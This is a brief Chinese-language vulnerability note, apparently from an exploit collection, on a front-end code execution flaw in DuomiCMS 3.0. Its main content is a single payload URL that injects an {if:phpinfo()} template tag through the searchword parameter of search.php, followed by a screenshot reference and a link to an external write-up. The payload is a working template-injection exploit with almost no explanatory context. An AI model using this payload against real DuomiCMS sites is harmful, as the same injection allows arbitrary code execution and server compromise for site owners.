 #### 漏洞详情： ####
 payload 如下：

    http://localhost/search.php?searchword={if:phpinfo()}phpinfo(){end

![](DuomiCMS3.0前台代码执行/20180930142624-c113a95e-c479-1.png)

### 参考链接 ###
https://xz.aliyun.com/t/2828#toc-2